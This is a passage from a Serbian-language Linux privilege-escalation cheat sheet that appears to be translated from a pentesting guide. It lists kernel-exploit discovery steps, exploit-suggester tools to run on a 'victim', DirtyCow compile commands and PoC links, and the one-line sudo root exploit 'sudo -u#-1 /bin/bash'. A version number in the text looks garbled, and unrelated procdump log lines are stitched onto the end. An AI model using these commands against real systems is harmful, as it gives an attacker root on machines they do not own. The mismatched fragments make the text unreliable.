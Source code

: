 Da biste izvukli sve ranjive verzije kernela sa te veb stranice, možete uraditi:

```bash
curl https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/README.md 2>/dev/null | grep "Kernels: " | cut -d ":" -f 2 | cut -d "<" -f 1 | tr -d "," | tr ' ' '\n' | grep -v "^\d\.\d$" | sort -u -r | tr '\n' ' '
```

Alati koji mogu pomoći u pretrazi za eksploate kernela su:

[linux-exploit-suggester.sh](https://github.com/mzet-/linux-exploit-suggester)\
[linux-exploit-suggester2.pl](https://github.com/jondonas/linux-exploit-suggester-2)\
[linuxprivchecker.py](http://www.securitysift.com/download/linuxprivchecker.py) (izvrši NA žrtvi, samo proverava eksploate za kernel 2.x)

Uvek **pretražite verziju kernela na Google-u**, možda je vaša verzija kernela navedena u nekom kernel eksploit-u i tada ćete biti sigurni da je taj eksploit validan.

### CVE-2016-5195 (DirtyCow)

Eskalacija privilegija u Linuxu - Linux Kernel <= 3.19.0-73.8

```bash
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
```

### Verzija Sudo-a

Na osnovu ranjivih verzija sudo-a koje se pojavljuju u:

```bash
searchsploit sudo
```

Možete proveriti da li je verzija sudo programa ranjiva koristeći ovu komandu grep.

```bash
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```

#### sudo < v1.28

Od @sickrov

***

Sudo verzija manja od 1.28

```
sudo -u#-1 /bin/bash
```

### Dmesg verifikacija potpisa nije uspela

Proverite **smasher2 kutiju na HTB-u** za **primer** kako bi ova ranjivost mogla biti iskorišćena


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714
